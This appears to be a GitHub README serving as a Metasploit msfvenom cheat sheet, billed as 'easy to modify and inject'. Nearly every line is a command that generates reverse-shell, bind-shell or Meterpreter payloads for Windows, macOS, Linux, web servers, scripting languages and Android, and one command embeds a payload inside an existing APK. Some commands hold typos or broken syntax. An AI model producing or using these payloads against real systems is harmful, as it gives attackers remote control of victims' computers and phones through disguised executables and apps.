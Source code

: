 # Payloads
Android and different os payloads easy to modify and inject

<h2>Cheetsheet Metasploit</h2>

Windows Payloads
Windows Meterpreter Reverse Shell

<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Reverse Shell
<pre>$ msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Encoded Meterpreter Reverse Shell
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe </pre>

Windows Meterpreter Reverse Shellcode
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

macOS Payloads
macOS Bind Shell
<pre>$ msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho </pre>

macOS Reverse Shell
<pre>$ msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho </pre>

macOS Reverse TCP Shellcode
<pre>$ msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Linux Payloads
Linux Meterpreter TCP Reverse Shell
<pre>$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind TCP Shell
<pre>$ msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind Meterpreter TCP Shell
<pre>$ msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Meterpreter Reverse Shellcode
<pre>$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Web-base Payloads
PHP Meterpreter Reverse Shell
<pre>$ msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php </pre>

JSP Java Meterpreter Reverse Shell
<pre>$ msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp </pre>

ASP Meterpreter Reverse Shell
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp </pre>

WAR Reverse TCP Shell
<pre>$ msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war </pre>

Script-Base Payloads
Perl Unix Reverse shell
<pre>$ msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl </pre>

Bash Unix Reverse Shell
<pre>$ msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh </pre>

Python Reverse Shell
<pre>$ msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py </pre>

Android Payloads
Android Meterpreter reverse Payload
<pre>$ msfvenom –p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk </pre>

Android Embed Meterpreter Payload
<pre>$ msfvenom -x <app.apk> android/meterpreter/reverse_tcp lhost=ip-address lport=port -o payload-name.apk </pre>

